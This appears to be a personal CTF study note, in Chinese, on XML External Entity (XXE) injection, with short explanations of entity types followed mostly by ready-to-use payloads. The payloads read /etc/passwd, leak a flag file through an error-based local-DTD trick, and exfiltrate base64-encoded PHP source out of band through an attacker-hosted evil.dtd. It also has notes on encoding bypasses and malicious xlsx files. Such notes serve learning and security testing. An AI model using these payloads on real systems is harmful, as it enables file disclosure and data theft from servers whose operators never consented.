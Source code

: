 # 参考
	- https://www.cnblogs.com/20175211lyz/p/11413335.html
	- XML 外部实体注入
- # 概念
	- 内部实体
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY a "admin">
		  ]>
		  ```
	- 参数实体
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY % b "<!ENTITY a \'admin\'>">
		      %b;
		  ]>
		  <i>&a;</i>
		  ```
	- 外部参数实体
		- ```xml
		  <!DOCTYPE note> [
		      <!ENTITY % d SYSTEM "http://xxx.xxx.xxx.xxx/xml.dtd">
		      %d;
		  ]>
		  <note>&d1;</note>
		  ```
	- 转译
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY % b "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x61;&#x20;&#x27;&#x61;&#x73;&#x64;&#x66;&#x27;&#x3e;">
		      %b;
		  ]>
		  <note>&a;</note>
		  ```
	- PEReferences forbidden
		- 在标记声明里不能使用参数声明
- # PHP读取XML
	- {{embed ((632ac609-e10a-42ee-89c4-df1a3ce9b17d))}}
- # 操作
	- ```xml
	  <?xml version="1.0" encoding="UTF-8"?>
	  <!DOCTYPE testtest [<!ENTITY xxe SYSTEM "file:///etc/passwd">  ]>
	  <user><username>&xxe;</username><password>admin</password></user>
	  ```
	- 在禁止加载外部实体时利用报错
		- ```xml
		  <?xml version="1.0"?>
		  <!DOCTYPE message[
		    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
		    <!ENTITY % ISOamso '
		    <!ENTITY &#x25; file SYSTEM "file:///flag">
		    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaaaa/&#x25;file;&#x27;>">
		    &#x25;eval;
		    &#x25;error;
		  '>
		  %local_dtd;
		  ]>
		  ```
		- 上面`ISOamso`中的字符串在解码后会变成：
		- ```xml
		  <!DOCTYPE message[
		  <!ENTITY % file SYSTEM "file:///flag">
		  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///aaaaa/%file;'>">
		  %eval;
		  %error;
		  ]>
		  ```
		- java 中 xxe 的`file://`可以读取目录
- # OOB
  id:: 64301d45-52ef-4288-a4f1-f268848799a7
	- victim
	  
	  ```xml
	  <!DOCTYPE updateProfile [
	    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php">
	    <!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
	    %dtd;
	    %send;
	  ]>
	  ```
	- server: evil.dtd:
	- ```xml
	  <!ENTITY % all
	    "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>"
	  >
	  %all;
	  ```
- # 使用字符编码绕过
	- 参考[[CTFWEB/WP/2024网鼎杯 web01]]
	- {{embed ((6720a4bd-9205-4b92-ae10-7d1018bc6691))}}
- # 制作恶意xlsx文件
	- 修改后缀为zip并解压一个xlsx文件，修改里面的xml文件，再压缩
	- 示例：[[CTFWEB/WP/BUUCTF/网鼎杯 2020 青龙组 filejava]]